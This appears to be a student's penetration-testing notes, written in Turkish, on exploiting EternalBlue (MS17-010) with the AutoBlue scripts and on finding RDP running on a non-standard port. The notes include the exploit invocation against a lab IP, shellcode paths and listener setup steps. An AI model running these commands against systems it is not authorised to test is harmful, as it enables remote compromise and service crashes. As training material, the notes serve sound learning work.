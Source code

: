 https://www.youtube.com/watch?v=2FwqryKUoX8

### pip install requirement.txt   -->> bunu yaptıktan sonra shellcode klasörü içinde shell_pre.sh var bunu açtık ve talimatları takip ettik.

![[Pasted image 20240201151221.png]]
![[Pasted image 20240201151354.png]]
run `listener_prep.sh`

```
python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>
```

```
python eternalblue_exploit7.py 192.168.1.7 /opt/AutoBlue-MS17-010/shellcode/sc_all.bin
```

![[Pasted image 20240201153653.png]]
### Bu programla karşı taraf crash oldu


---


## Exploiting RDP
#rdp-exploit
![[Pasted image 20240201154346.png]]
## PORT 3389
### Authentication Required
#### Başka Portlarda da çalıştırılabilir buna dikkat PORT SCAN aşamasında

### Biz her zaman RDP'ye bağlanabiliriz sncsk bizim legitimate credentials'e ihtiyacımız var.

---
![[Pasted image 20240201222308.png]]
![[Pasted image 20240201222358.png]]
![[Pasted image 20240201231625.png]]
### Burada tek ne olduğu yazmayan port 3333 bu deneyeceğiz ve msfsonsole ile scan yapacağız. Normalde 3389 olsa zaten default olarak RDP olduğunu bileceğiz fakat burada öyle bir durum yok.
#### buradaki durumda örneğin RDP'ti başka portta çalıştırıyor.Enumeration buna göre devam edecek. 3389 Değil 3333
